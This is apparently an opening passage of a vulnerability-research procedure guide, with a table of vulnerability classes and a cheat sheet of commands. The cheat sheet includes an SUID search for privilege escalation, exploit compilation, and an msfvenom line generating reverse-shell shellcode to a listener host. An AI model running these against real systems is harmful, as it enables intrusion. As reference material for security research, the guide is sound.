 **Prerequisites:**
- Understanding of programming (C/C++, Python, Assembly)
- Knowledge of operating system internals
- Familiarity with debugging tools
- Understanding of exploitation mitigations

**Related SOPs:**
- `Reverse-Engineering.md` - Binary analysis and disassembly
- `Web-Application-Security.md` - Web vulnerability research
- `Cryptography-Analysis.md` - Cryptographic vulnerability analysis
- `Firmware-Reverse-Engineering.md` - Embedded device vulnerabilities

---

## Quick Reference

### Vulnerability Categories

| Category | Impact | Common Vectors |
|----------|--------|----------------|
| Memory Corruption | Critical | Buffer overflow, use-after-free, heap overflow |
| Injection | Critical | SQL injection, command injection, XXE |
| Authentication Bypass | Critical | Logic flaws, weak crypto, session issues |
| Privilege Escalation | Critical | Kernel bugs, SUID binaries, misconfigurations |
| Information Disclosure | Medium-High | Memory leaks, verbose errors, directory traversal |
| Denial of Service | Medium | Resource exhaustion, null pointer dereference |
| Logic Flaws | Variable | Race conditions, business logic bypass |

### Critical Commands

```bash
# Fuzzing with AFL++
afl-fuzz -i input_corpus/ -o findings/ -- ./target_binary @@

# Debugging with GDB
gdb -q ./target_binary
> run $(python3 -c 'print("A"*100)')

# Find SUID binaries (privilege escalation)
find / -perm -4000 -type f 2>/dev/null

# Binary security analysis
checksec --file=./binary

# Kernel exploit compilation
gcc -o exploit exploit.c -static -lpthread

# Generate shellcode
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```
